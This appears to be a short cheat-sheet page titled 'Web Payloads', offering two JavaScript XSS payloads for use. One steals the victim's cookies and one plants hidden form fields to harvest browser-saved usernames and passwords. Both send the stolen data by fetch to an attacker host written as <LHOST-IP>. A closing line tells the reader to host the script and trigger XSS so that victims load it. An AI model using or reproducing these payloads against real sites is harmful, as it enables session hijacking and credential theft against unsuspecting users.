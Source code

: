 ```yaml
---
title: Web Payloads
published: true
---
```

### [](#header-3)Cookie Stealer:

```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://<LHOST-IP>/exfil?data=" + encodedCookie)
```

### [](#header-3)Steal Saved Passwords:

```js
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";
body.append(u)
body.append(p)

setTimeout(function(){ 
fetch("http://<LHOST-IP>/k?u=" + u.value + "&p=" + p.value)
}, 5000);
```

Host these files as a .js file, and try to trigger XSS to have the victim reach out and load the js.